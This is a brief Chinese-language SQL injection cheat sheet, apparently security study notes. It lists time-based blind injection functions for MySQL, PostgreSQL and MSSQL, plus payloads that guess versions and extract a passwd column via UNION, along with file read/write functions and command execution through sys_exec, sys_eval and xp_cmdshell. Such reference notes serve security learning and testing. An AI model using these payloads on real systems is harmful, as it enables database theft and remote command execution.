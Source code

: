 * timing attack时间攻击
	- 主要思路：假如返回结果的时间比平时长，说明函数被成功执行了。

	=== "mysql"

		```sql
		benchmark(count,expr)
		```

	=== "PostgreSQL"

		```sql
		PG_SLEEP(5)
		GENERATE_SERIES(1,100000)
		```

	=== "MSSQL"

		```sql
		WAITFOR DELAY '0:0:5'
		```

* 可以获得有用信息的其他函数：`database()` `system_user()` `current_user()` `last_insert_id()`
* 其他技巧

	=== "猜版本"

		```sql
		id = 5 and substring(@@version,1,1)=4 /* (1)! */
		```
        
        1. 检查 mysql 版本是不是 4 开头

	=== "猜列名"

		```sql
		id = 5 union select 1,2,passwd from admin /* (1)! */
		```

        1. 检查 admin 表中是否有 passwd 字段

	=== "读写文件（如果具有相应权限）"

		```sql
		/* mysql */
		load_file()，select into dumpfile
		```

	=== "执行命令"
		* 可以执行 webshell 或用户自定义函数（UDF）

        === "mysql"
            ```sql
            sys_eval()
            sys_exec()
            sys_get()
            ```

        === "sql server"
            ```sql
            xp_cmdshell
            ```
